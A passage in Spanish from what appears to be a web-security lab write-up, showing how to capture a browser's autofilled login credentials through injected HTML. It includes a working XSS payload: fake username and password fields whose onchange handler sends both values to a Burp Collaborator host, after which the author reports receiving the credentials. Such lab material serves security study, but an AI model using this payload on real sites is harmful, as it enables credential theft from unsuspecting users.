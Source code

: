 ![](img6.png)

Pero lo envia sin informacion, esto puede ocurrir porque a la hora de realizar el document.location todavia no se realizó el autocompletado, por ello haremos uso del atributo **onchange**. 

```html
<input required="" type="username" name="username"><input required="" type="password" name="password" onchange="document.location='http://9s2dl5quximg9tsq7m5m5gvfj6pwdl.burpcollaborator.net/?'+document.getElementsByName('username')[0].value+'&'+document.getElementsByName('password')[0].value">
```

![](img7.png)

Entonces, verificamos el **burp collaborator** y obtenemos las credenciales.
